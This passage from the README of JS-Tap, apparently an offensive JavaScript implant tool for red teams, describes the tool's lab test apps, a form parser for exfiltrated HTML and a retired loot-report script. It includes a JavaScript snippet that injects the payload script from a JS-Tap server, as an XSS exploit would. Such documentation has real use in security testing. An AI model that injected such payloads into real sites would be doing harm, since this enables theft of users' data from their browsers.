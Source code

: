 You'll also need to configure where you're running the jsTapServer for the clientSimulator to connect to:
```
apiServer = "https://127.0.0.1:8444"
```

JS-Tap run using gunicorn scales quite well. 

### MonkeyPatchApp
A simple app used for testing XHR/Fetch monkeypatching, but can give you a simple app to test the payload against in general. 

Run with:
```
python3 monkeyPatchLab.py
```

By default this will start the application running on:
```
https://127.0.0.1:8443
```

Pressing the "Inject JS-Tap payload" button will run the JS-Tap payload. This works for either implant or trap mode. You may need to point the monkeyPatchLab application at a new JS-Tap server location for loading the payload file, you can find this set in the **injectPayload()** function in **main.js**

```
function injectPayload()
{
	document.head.appendChild(Object.assign(document.createElement('script'),
		{src:'https://127.0.0.1:8444/lib/telemlib.js',type:'text/javascript'}));
}
```

### DefconApp
Another simple app similiar to the MonkeyPathApp, however the XHR API calls in this application makes a visible change in the application (changing the "defcon" level).<br>

It also has a **Inject Js-Tap payload** button that simulates and XSS exploit. All of the code is included in the **defconServer.py** file, including the JavaScript and HTML.<br>

This application is a good test for autogenerating payloads from intercepted XHR network calls. 

### formParser.py
Abandoned tool, is a good start on analyzing HTML for forms and parsing out their parameters. Intended to help automatically generate JavaScript payloads to target form posts. 

You should be able to run it on exfiltrated HTML files. Again, this is currently abandonware and has been superceded by the mimic feature that autogenerates custom payloads. 


### generateIntelReport.py
No longer working, used before the web UI for JS-Tap. The generateIntelReport script would comb through the gathered loot and generate a PDF report. Saving all the loot to disk is now disabled for performance reasons, most of it is stored in the datagbase with the exception of exfiltratred HTML code and screenshots. 




## Contact
@hoodoer<br>
hoodoer@bitwisemunitions.dev





